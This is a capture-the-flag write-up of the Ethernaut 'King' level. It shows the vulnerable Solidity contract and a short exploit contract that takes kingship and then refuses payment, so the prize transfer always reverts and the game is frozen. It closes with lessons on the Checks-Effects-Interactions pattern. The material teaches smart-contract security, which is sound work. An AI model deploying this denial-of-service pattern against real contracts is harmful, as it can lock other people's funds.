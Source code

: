 ## Challenge
~~~
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
`

## Solution

```
contract NonPayableContract {
    address king = 0xcd105d4DfAe79CA0Fc764cb4B1013492fF7451C1;
    uint256 startPrize = 1000000000000000;

    constructor() payable {}

    function sendEth() external returns (bool) {
        (bool success,) = payable(king).call{value:startPrize + 1}("");
        return success;
    }
}
```

When the NonPayableContract becomes a king, it cannot be changed as the `transfer()` will always revert.
## Key takeaways and useful resources

We cannot assume that the contract we are trying to send ether can accept it. Another important pattern which is not implemented here is the CEI - Checks, Effects, Interactions.

[CEI pattern article](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html)